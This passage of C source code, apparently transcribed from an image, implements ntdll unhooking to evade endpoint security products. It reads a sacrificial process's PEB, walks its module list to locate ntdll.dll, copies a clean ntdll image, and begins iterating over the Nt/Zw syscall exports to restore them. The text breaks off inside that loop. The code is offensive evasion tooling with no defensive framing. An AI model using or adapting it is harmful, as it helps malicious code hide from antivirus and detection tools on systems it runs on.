 ```c
    // Read PEB
    PEB remotePeb = {0};
    ReadProcessMemory(pContext->hSacrificialProcess, pbi.PebBaseAddress,
                     &remotePeb, sizeof(PEB), NULL);

    // Traverse PEB_LDR_DATA to find ntdll.dll
    PEB_LDR_DATA ldrData = {0};
    ReadProcessMemory(pContext->hSacrificialProcess, remotePeb.Ldr,
                     &ldrData, sizeof(PEB_LDR_DATA), NULL);

    // Walk InLoadOrderModuleList
    LIST_ENTRY* pListHead = &ldrData.InLoadOrderModuleList;
    LIST_ENTRY* pCurrentEntry = ldrData.InLoadOrderModuleList.Flink;

    while (pCurrentEntry != pListHead) {
        LDR_DATA_TABLE_ENTRY ldrEntry = {0};
        ReadProcessMemory(pContext->hSacrificialProcess,
                         CONTAINING_RECORD(pCurrentEntry, LDR_DATA_TABLE_ENTRY, InLoadOrderLinks),
                         &ldrEntry, sizeof(LDR_DATA_TABLE_ENTRY), NULL);

        WCHAR wzModuleName[MAX_PATH] = {0};
        ReadProcessMemory(pContext->hSacrificialProcess, ldrEntry.BaseDllName.Buffer,
                         wzModuleName, ldrEntry.BaseDllName.Length, NULL);

        if (_wcsicmp(wzModuleName, L"ntdll.dll") == 0) {
            pContext->pRemoteNtdllBase = ldrEntry.DllBase;
            break;
        }

        pCurrentEntry = ldrEntry.InLoadOrderLinks.Flink;
    }

    // Step 3: Read clean ntdll from sacrificial process memory
    HMODULE hLocalNtdll = GetModuleHandleW(L"ntdll.dll");
    PIMAGE_DOS_HEADER pDos = (PIMAGE_DOS_HEADER)hLocalNtdll;
    PIMAGE_NT_HEADERS pNt = (PIMAGE_NT_HEADERS)((BYTE*)hLocalNtdll + pDos->e_lfanew);
    SIZE_T szNtdllSize = pNt->OptionalHeader.SizeOfImage;

    pContext->pCleanNtdll = HeapAlloc(GetProcessHeap(), 0, szNtdllSize);
    ReadProcessMemory(pContext->hSacrificialProcess, pContext->pRemoteNtdllBase,
                     pContext->pCleanNtdll, szNtdllSize, NULL);

    // Step 4: Unhook syscalls in current process
    PIMAGE_EXPORT_DIRECTORY pExportDir = (PIMAGE_EXPORT_DIRECTORY)(
        (BYTE*)pContext->pCleanNtdll +
        pNt->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress
    );

    DWORD* pAddressOfFunctions = (DWORD*)((BYTE*)pContext->pCleanNtdll + pExportDir->AddressOfFunctions);
    DWORD* pAddressOfNames = (DWORD*)((BYTE*)pContext->pCleanNtdll + pExportDir->AddressOfNames);
    WORD* pAddressOfNameOrdinals = (WORD*)((BYTE*)pContext->pCleanNtdll + pExportDir->AddressOfNameOrdinals);

    DWORD dwUnhookedCount = 0;

    // Iterate through all exported functions
    for (DWORD i = 0; i < pExportDir->NumberOfNames; i++) {
        LPCSTR pszFunctionName = (LPCSTR)((BYTE*)pContext->pCleanNtdll + pAddressOfNames[i]);

        // Unhook only Nt* and Zw* functions (syscalls)
        if (strncmp(pszFunctionName, "Nt", 2) == 0 || strncmp(pszFunctionName, "Zw", 2) == 0) {
            WORD wOrdinal = pAddressOfNameOrdinals[i];
```